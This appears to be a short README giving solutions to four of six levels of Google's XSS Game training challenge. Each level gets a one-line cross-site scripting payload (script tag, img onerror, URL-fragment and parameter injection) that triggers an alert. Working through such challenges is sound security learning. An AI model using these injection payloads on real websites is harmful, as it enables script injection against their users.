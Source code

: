 # XSS Game Google
Solution to the six XSS issues proposed by Google

## [1/6]  Level 1: Hello, world of XSS
_Solution_: put `<script>alert('xss');</script>` into form field

## [2/6]  Level 2: Persistence is key
_Solution_: share status `<img src="#" onerror="javascript:alert(1)"/>`

## [3/6]  Level 3: That sinking feeling...
_Solution_: add to url the code: `#1' onerror='alert("xss")'`

## [4/6]  Level 4: Context matters
_Solution_: put this url: `http://xss-game.appspot.com/level4/frame?timer=3')%3Balert('xss`